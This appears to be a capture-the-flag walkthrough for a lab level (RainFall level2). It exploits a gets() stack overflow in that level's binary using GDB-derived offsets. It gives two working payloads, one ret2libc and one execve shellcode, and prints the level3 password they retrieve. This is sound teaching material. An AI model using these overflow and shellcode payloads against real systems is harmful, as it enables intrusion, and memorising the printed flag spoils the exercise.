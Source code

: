 # Level 2

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void p(void)
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int tmp = buffer[20];
    if ((tmp & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", tmp);
        exit(1);
    }
    puts(buffer);
    strdup(buffer);
}

int main(void)
{
    p();
}
```

Let's focus on the `p` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `p` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *p+105 # Breaking before leave
Breakpoint 1 at 0x804853d

(gdb) r # Run the program
Starting program: /home/user/level2/level2


Breakpoint 1, 0x0804853d in p ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xbffff728 - 0xbffff6c0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `-0x4c(%ebp),%eax`. Since our buffer is located at `ebp - 76`, we only have to write 76 bytes before reaching `ebp`.
> In this case we don't have to take the bytes between `esp` and `ebp` into account because the offset of our buffer is relative to `ebp`. `ebp` is the base pointer, whom's value is set at the beginning of the function. So the offset of our buffer will always be the same. Whereas `esp` is the stack pointer, whom's value changes during the execution of the program.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll see two of them. First with a ret2shellcode and then the ret2libc way.

### Ret2Libc
Check the [level1's walkthrough](../level1/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xb7e6b060  __libc_system
0xb7e6b060  system

# Exit
(gdb) info functions exit
0x080483d0  _exit
0x080483d0  _exit@plt

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

However, we'll need to include an extra step because of the following lines:
```c
if ((tmp & 0xb0000000) == 0xb0000000)
{
    printf("(%p)\n", tmp);
    exit(1);
}
```

Earlier, I mentioned that the return address was put into our next variable, which is `tmp`. So the `&` operator, along with the `0xb0000000` mask is used to check if our return address most significant byte is equal to `0xb`. If it is, the program will exit. So we need to find an address that doesn't start with `0xb`. 

Given that the address of the `system` function begins with `0xb`, it cannot be directly used. So we'll have to include the address of a `ret` instruction in our payload. When the program attempts to return to this address, the `ret` instruction pops the address of `system` into the EIP register, causing the program to jump to `system`.


Alright, let's craft our payload:
```
reminder: padding + address of ret + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\x08\x04\x85\x3e" + "\xb7\xe6\xb0\x60" + "\x08\x04\x83\xd0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level2@RainFall:~$ (python -c 'print("\x90"*80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
����������������������������������������������������������������>������������>`��X���
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Perfect, let's move to the other solution.

### Ret2Shellcode
Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll feed our shellcode to the program.
> The reason why we're not using an environment variable is because the address of the environment variable will start with `0xb` which will trigger the check in the source code. We could use the same technique as the ret2libc solution, by adding the address of a `ret` instruction, but it's easier to just feed the shellcode to the program.

We use `ltrace` to find the address of our shellcode:
```bash
level2@RainFall:~$ ltrace ./level2
[...]
strdup("") = 0x0804a008
```

Since `strdup` allocates the buffer that was read by `gets`, the address of the shellcode will be stored at `0x0804a008` (The address that was returned by strdup).

So our payload will be:
```
shellcode + padding + address of shellcode
Alternatively, you could place the padding before the shellcode, using NOPs.

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1]
```

The padding is 80 - 21 because the shellcode is 21 bytes long.

Alright let's try it:
```bash
level2@RainFall:~$ (python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*(80-21) + "\x08\x04\xa0\x08"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

We are now level3! Let's move on to the next level.
